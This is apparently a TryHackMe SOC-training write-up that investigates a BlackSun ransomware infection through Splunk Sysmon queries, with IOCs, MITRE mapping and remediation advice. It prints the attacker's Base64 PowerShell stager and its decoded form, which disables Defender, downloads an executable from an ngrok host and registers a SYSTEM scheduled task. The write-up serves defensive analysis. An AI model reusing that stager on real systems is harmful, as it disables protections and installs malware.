## Scenario Overview

A customer asked TryNotHackMe to investigate events on Keegan's machine on May 16, 2022. The machine was still working, but some files had strange extensions, and the client feared a ransomware attempt. The investigation uses Splunk (mostly Sysmon events) to reconstruct what happened.

The result is a full **BlackSun ransomware** chain: a Base64-encoded PowerShell stager that disables Defender, downloads a binary through an ngrok tunnel and registers a SYSTEM scheduled task for it; a binary that calls home over HTTPS; a second script found in the same folder; and a ransom note and a wallpaper dropped on disk.

---

## Attack Chain Overview

```
[1] Execution
    └─ PowerShell with a Base64 (-enc) command line

[2] Defense Evasion
    └─ Set-MpPreference -DisableRealtimeMonitoring $true

[3] Ingress Tool Transfer
    └─ wget http://886e-181-215-214-32.ngrok.io/OUTSTANDING_GUTTER.exe
    └─ Saved to C:\Windows\Temp\OUTSTANDING_GUTTER.exe

[4] Persistence + Privilege
    └─ SCHTASKS /Create /TN OUTSTANDING_GUTTER.exe ... /SC ONEVENT /EC Application
       /MO *[System/EventID=777] /RU SYSTEM
    └─ SCHTASKS /Run /TN OUTSTANDING_GUTTER.exe

[5] Command & Control
    └─ OUTSTANDING_GUTTER.exe → 3.17.7.232:443 (source port 50738)
    └─ DNS: 9030-181-215-214-32.ngrok.io

[6] Second Script
    └─ C:\Windows\Temp\script.ps1 → actually BlackSun.ps1

[7] Impact
    └─ Ransom note: C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt
    └─ Wallpaper: C:\Users\Public\Pictures\blacksun.jpg
```

---

## Questions 1–5 — Staging, Download Source, Downloader and Persistence

These five questions are answered from the same chain of searches, so the method is shown once and each answer is taken from it.

### Step 1 — Processes running outside `system32`

```spl
index="main" EventCode=1 NOT Image=*system32*
| table _time Image ParentImage CommandLine
```

Sysmon **EventCode 1** is process creation. Excluding `system32` removes most of the normal Windows noise and leaves what is unusual. One non-standard binary stands out, running from a temporary folder:

| Field | Value |
|---|---|
| Image | `C:\Windows\Temp\OUTSTANDING_GUTTER.exe` |
| Parent | `svchost.exe` |

A program executing from `C:\Windows\Temp\` is already suspicious. The parent `svchost.exe` is consistent with a program started by the Task Scheduler service, which the persistence step below confirms.



### Step 2 — Where the machine connected

```spl
index="main" DestinationPort=443 DestinationIp="3.17.7.232"
```

Destination port distribution in the Sysmon network events:

| Port | Events | Meaning |
|---|---|---|
| `443` | 296 | Main outbound channel (HTTPS) |
| `80` | 4 | HTTP, correlates with PowerShell |
| `445` | 1 | SMB |

Filtering port 443 to the external IP `3.17.7.232` shows the connections came directly from `C:\Windows\Temp\OUTSTANDING_GUTTER.exe` (source port `50738`). The port 80 traffic lines up with PowerShell.



### Step 3 — The PowerShell activity

```spl
index="main" *powershell*
```

The `Image` field distribution shows `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` accounts for most of the events (**68.076%, 158 events**), so PowerShell is where the attack logic sits. Among these events is a command line with `-enc`, which carries a Base64-encoded script.

### Step 4 — Decoding the stager

```bash
echo "UwBlAHQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARABpAHMAYQBiAGwAZQBSAGUAYQBsAHQAaQBtAGUATQBvAG4AaQB0AG8AcgBpAG4AZwAgACQAdAByAHUAZQA7AHcAZwBlAHQAIABoAHQAdABwADoALwAvADgAOAA2AGUALQAxADgAMQAtADIAMQA1AC0AMgAxADQALQAzADIALgBuAGcAcgBvAGsALgBpAG8ALwBPAFUAVABTAFQAQQBOAEQASQBOAEcAXwBHAFUAVABUAEUAUgAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAZQBtAHAAXABPAFUAVABTAFQAQQBOAEQASQBOAEcAXwBHAFUAVABUAEUAUgAuAGUAeABlADsAUwBDAEgAVABBAFMASwBTACAALwBDAHIAZQBhAHQAZQAgAC8AVABOACAAIgBPAFUAVABTAFQAQQBOAEQASQBOAEcAXwBHAFUAVABUAEUAUgAuAGUAeABlACIAIAAvAFQAUgAgACIAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAZQBtAHAAXABDAE8AVQBUAFMAVABBAE4ARABJAE4ARwBfAEcAVQBUAFQARQBSAC4AZQB4AGUAIgAgAC8AUwBDACAATwBOAEUAVgBFAE4AVAAgAC8ARQBDACAAQQBwAHAAbABpAGMAYQB0AGkAbwBuACAALwBNAE8AIAAqAFsAUwB5AHMAdABlAG0ALwBFAHYAZQBuAHQASQBEAD0ANwA3ADcAXQAgAC8AUgBVACAAIgBTAFkAUwBUAEUATQAiACAALwBmADsAUwBDAEgAVABBAFMASwBTACAALwBSAHUAbgAgAC8AVABOACAAIgBPAFUAVABTAFQAQQBOAEQASQBOAEcAXwBHAFUAVABUAEUAUgAuAGUAeABlACIA" | base64 -d; echo
```

Decoded result:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true;
wget http://886e-181-215-214-32.ngrok.io/OUTSTANDING_GUTTER.exe -OutFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe;
SCHTASKS /Create /TN "OUTSTANDING_GUTTER.exe" /TR "C:\Windows\Temp\COUTSTANDING_GUTTER.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f;
SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"
```

The script does four things in a row:

| # | Command | Purpose |
|---|---|---|
| 1 | `Set-MpPreference -DisableRealtimeMonitoring $true` | Turns off Defender real-time protection |
| 2 | `wget http://886e-181-215-214-32.ngrok.io/OUTSTANDING_GUTTER.exe -OutFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe` | Downloads the binary |
| 3 | `SCHTASKS /Create ... /RU "SYSTEM"` | Registers a scheduled task that runs as SYSTEM |
| 4 | `SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"` | Starts the task immediately |



`wget` in PowerShell is an alias for `Invoke-WebRequest`, so the downloader is PowerShell itself. Defender is switched off first so the download isn't scanned.

**MITRE ATT&CK:** T1059.001 — PowerShell | T1027 — Obfuscated Files or Information | T1562.001 — Impair Defenses: Disable or Modify Tools | T1105 — Ingress Tool Transfer

---

### Q1 — What was the name of the suspicious binary?

The file downloaded by the stager and run from the Temp folder:

**Answer:**

```
OUTSTANDING_GUTTER.exe
```


---

### Q2 — What address was the binary downloaded from? (`http://`, defanged)

The `wget` command in the decoded stager points to an ngrok tunnel domain:

```
http://886e-181-215-214-32.ngrok.io
```

**Answer:**

```
hxxp[://]886e-181-215-214-32[.]ngrok[.]io
```


---

### Q3 — What Windows executable was used to download the binary? (full path)

The stager ran inside PowerShell, and `wget` is its alias for `Invoke-WebRequest`:

**Answer:**

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```


---

### Q4 — What command configured the binary to run with elevated privileges?

The `schtasks.exe` process-creation event carries the full command line that was logged:

```
"C:\Windows\system32\schtasks.exe" /Create /TN OUTSTANDING_GUTTER.exe /TR C:\Windows\Temp\COUTSTANDING_GUTTER.exe /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU SYSTEM /f
```

**Breakdown:**

| Part | Meaning |
|---|---|
| `/Create /TN OUTSTANDING_GUTTER.exe` | Creates a task named like the binary |
| `/TR C:\Windows\Temp\COUTSTANDING_GUTTER.exe` | The program the task launches |
| `/SC ONEVENT /EC Application /MO *[System/EventID=777]` | Trigger: an event with ID 777 in the `Application` log |
| `/RU SYSTEM` | Runs as `SYSTEM` (the elevation) |
| `/f` | Forces creation, overwriting a task of the same name |


**MITRE ATT&CK:** T1053.005 — Scheduled Task/Job: Scheduled Task

**Answer:**

```
"C:\Windows\system32\schtasks.exe" /Create /TN OUTSTANDING_GUTTER.exe /TR C:\Windows\Temp\COUTSTANDING_GUTTER.exe /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU SYSTEM /f
```


---

### Q5 — What permissions will the binary run as, and what command ran it with elevated privileges? (`User;CommandLine`)

Because the task was created with `/RU SYSTEM`, it runs as `NT AUTHORITY\SYSTEM`, the highest-privilege local account. The command that started it immediately, instead of waiting for an event 777, is the `/Run` step:

```
"C:\Windows\system32\schtasks.exe" /Run /TN OUTSTANDING_GUTTER.exe
```

**Answer:**

```
NT AUTHORITY\SYSTEM;"C:\Windows\system32\schtasks.exe" /Run /TN OUTSTANDING_GUTTER.exe
```


---

## Q6 — What address did the binary connect to? (`http://`, defanged)

### Splunk Query

```spl
index="main" *OUTSTANDING_GUTTER.exe*
| dedup QueryName
| table QueryName
```

### Investigation

Searching all events that mention the binary and keeping the distinct DNS `QueryName` values shows the domain the binary resolved for its own communication:

```
9030-181-215-214-32.ngrok.io
```

This is a different ngrok subdomain from the download source (`886e-...`), though both end in the same `181-215-214-32` string. Using separate hostnames for delivery and command-and-control is a common way to separate the staging server from the callback server.

**MITRE ATT&CK:** T1071.001 — Web Protocols | T1572 — Protocol Tunneling

**Answer:**

```
hxxp[://]9030-181-215-214-32[.]ngrok[.]io
```


---

## Q7 — What was the name of the PowerShell script downloaded to the same location as the binary?

### Splunk Query

```spl
index="main" *ps1*
```

### Investigation

Searching for `ps1` in the events returns a script file sitting in the same Temp folder as the binary:

```
C:\Windows\Temp\script.ps1
```

The decoded stager (Q1–Q5) only downloads the executable, so the logs shown here don't show how `script.ps1` arrived. It is found in the same directory, and the room states it was downloaded alongside the binary.

**Answer:**

```
script.ps1
```


---

## Q8 — What was the actual name of the malicious script?

### Investigation

The file name `script.ps1` is generic. Its **MD5** hash from the events:

```
3EBAB71CB71CA5C475202F401DE008C8
```

Submitting the hash to **VirusTotal** gives:

| Field | Value |
|---|---|
| Detections | 38 / 61 vendors |
| Name history | `BlackSun.ps1` |

The names VirusTotal has recorded for this file identify it as the **BlackSun** ransomware script, which was renamed to `script.ps1` on this machine.

**Answer:**

```
BlackSun.ps1
```


---

## Q9 — What is the full path where the ransom note was saved?

### Splunk Query

```spl
index="main" *.txt*
| table _time Image TargetFilename
```

### Investigation

Looking at file-creation events for `.txt` files shows a note dropped into the user's Downloads folder, inside a randomly named subfolder:

```
C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt
```

The file name carries the ransomware family name, which makes it a reliable indicator.

**MITRE ATT&CK:** T1486 — Data Encrypted for Impact

**Answer:**

```
C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt
```


---

## Q10 — What is the full path of the image used to replace the desktop wallpaper?

### Splunk Query

```spl
index="main" (TargetFilename=*.jpg* OR TargetFilename=*.png*)
| table _time Image TargetFilename
```

### Investigation

Searching file creation for image extensions returns the wallpaper dropped during the infection:

```
C:\Users\Public\Pictures\blacksun.jpg
```

It was written under `Public\Pictures`, a folder every user on the machine can read, and it carries the ransomware name.

**MITRE ATT&CK:** T1491.001 — Defacement: Internal Defacement

**Answer:**

```
C:\Users\Public\Pictures\blacksun.jpg
```


---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| Host | `DESKTOP-TBV8NEF` | Affected machine (user `keegan`) |
| File | `C:\Windows\Temp\OUTSTANDING_GUTTER.exe` | Downloaded binary |
| URL | `hxxp[://]886e-181-215-214-32[.]ngrok[.]io/OUTSTANDING_GUTTER.exe` | Download source |
| Domain | `9030-181-215-214-32[.]ngrok[.]io` | Command-and-control callback |
| IP:Port | `3.17.7.232:443` | External connection from the binary (source port `50738`) |
| Scheduled task | `OUTSTANDING_GUTTER.exe` | Runs as SYSTEM on Application event 777 |
| Task action | `C:\Windows\Temp\COUTSTANDING_GUTTER.exe` | `/TR` path, as logged (extra `C`) |
| File | `C:\Windows\Temp\script.ps1` (`BlackSun.ps1`) | Ransomware script |
| MD5 | `3EBAB71CB71CA5C475202F401DE008C8` | `script.ps1` / `BlackSun.ps1` |
| File | `C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt` | Ransom note |
| File | `C:\Users\Public\Pictures\blacksun.jpg` | Replacement wallpaper |

---

## Splunk Queries and Commands Reference

```spl
-- Q1–Q5: Processes outside system32 (the suspicious binary)
index="main" EventCode=1 NOT Image=*system32*
| table _time Image ParentImage CommandLine

-- Outbound connections on port 443
index="main" DestinationPort=443

-- PowerShell activity (find the -enc command line)
index="main" *powershell*

-- Q6: DNS names resolved around the binary
index="main" *OUTSTANDING_GUTTER.exe*
| dedup QueryName
| table QueryName

-- Q7: PowerShell script files
index="main" *ps1*

-- Q9: Ransom note
index="main" *.txt*
| table _time Image TargetFilename

-- Q10: Wallpaper image
index="main" (TargetFilename=*.jpg* OR TargetFilename=*.png*)
| table _time Image TargetFilename
```

```bash
# Decode the Base64 PowerShell stager
echo "UwBlAHQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARABpAHMAYQBiAGwAZQBSAGUAYQBsAHQAaQBtAGUATQBvAG4AaQB0AG8AcgBpAG4AZwAgACQAdAByAHUAZQA7AHcAZwBlAHQAIABoAHQAdABwADoALwAvADgAOAA2AGUALQAxADgAMQAtADIAMQA1AC0AMgAxADQALQAzADIALgBuAGcAcgBvAGsALgBpAG8ALwBPAFUAVABTAFQAQQBOAEQASQBOAEcAXwBHAFUAVABUAEUAUgAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAZQBtAHAAXABPAFUAVABTAFQAQQBOAEQASQBOAEcAXwBHAFUAVABUAEUAUgAuAGUAeABlADsAUwBDAEgAVABBAFMASwBTACAALwBDAHIAZQBhAHQAZQAgAC8AVABOACAAIgBPAFUAVABTAFQAQQBOAEQASQBOAEcAXwBHAFUAVABUAEUAUgAuAGUAeABlACIAIAAvAFQAUgAgACIAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAZQBtAHAAXABDAE8AVQBUAFMAVABBAE4ARABJAE4ARwBfAEcAVQBUAFQARQBSAC4AZQB4AGUAIgAgAC8AUwBDACAATwBOAEUAVgBFAE4AVAAgAC8ARQBDACAAQQBwAHAAbABpAGMAYQB0AGkAbwBuACAALwBNAE8AIAAqAFsAUwB5AHMAdABlAG0ALwBFAHYAZQBuAHQASQBEAD0ANwA3ADcAXQAgAC8AUgBVACAAIgBTAFkAUwBUAEUATQAiACAALwBmADsAUwBDAEgAVABBAFMASwBTACAALwBSAHUAbgAgAC8AVABOACAAIgBPAFUAVABTAFQAQQBOAEQASQBOAEcAXwBHAFUAVABUAEUAUgAuAGUAeABlACIA" | base64 -d; echo
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name | Evidence |
|---|---|---|---|
| Execution | T1059.001 | PowerShell | `-enc` stager |
| Defense Evasion | T1027 | Obfuscated Files or Information | Base64-encoded command |
| Defense Evasion | T1562.001 | Impair Defenses: Disable or Modify Tools | `Set-MpPreference -DisableRealtimeMonitoring $true` |
| Command & Control | T1105 | Ingress Tool Transfer | `wget` of `OUTSTANDING_GUTTER.exe` |
| Persistence / Privilege Escalation | T1053.005 | Scheduled Task | `schtasks /Create ... /RU SYSTEM` |
| Command & Control | T1071.001 | Web Protocols | HTTPS to `3.17.7.232:443` |
| Command & Control | T1572 | Protocol Tunneling | ngrok domains |
| Impact | T1486 | Data Encrypted for Impact | BlackSun ransomware, ransom note |
| Impact | T1491.001 | Defacement: Internal Defacement | `blacksun.jpg` wallpaper |

---

## Recommendations

1. **Isolate `DESKTOP-TBV8NEF`** and restore from clean backups. Encrypted files should be treated as unrecoverable unless a decryptor is available.
2. **Remove the scheduled task** `OUTSTANDING_GUTTER.exe` and the files in `C:\Windows\Temp\` (`OUTSTANDING_GUTTER.exe`, `script.ps1`).
3. **Block the ngrok domains** `886e-181-215-214-32.ngrok.io` and `9030-181-215-214-32.ngrok.io`, and the IP `3.17.7.232`. Tunneling services should be blocked on managed endpoints unless a business need exists.
4. **Alert on encoded PowerShell** — `-enc` / `-EncodedCommand` combined with `Set-MpPreference` should raise a high-severity alert.
5. **Alert on Defender being switched off** — a change to real-time monitoring should always be investigated.
6. **Monitor `schtasks /Create /RU SYSTEM`** from non-administrative processes, especially event-triggered tasks (`/SC ONEVENT`).
7. **Detect execution from `C:\Windows\Temp\`** — binaries and scripts launching from that folder deserve review.
8. **Hunt for the same artifacts elsewhere** — the MD5 of `script.ps1`, the `BlackSun_README.txt` note and `blacksun.jpg` on other hosts.

---

*Writeup produced as part of SOC Analyst training — TryHackMe: PS Eclipse*